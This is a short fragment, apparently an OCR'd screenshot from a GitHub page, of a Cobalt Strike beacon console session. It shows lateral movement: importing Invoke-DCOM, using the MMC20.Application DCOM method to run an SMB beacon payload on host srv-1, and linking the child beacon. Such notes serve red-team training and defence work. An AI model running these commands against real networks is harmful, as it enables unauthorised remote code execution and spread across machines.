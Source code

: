 beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv-1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```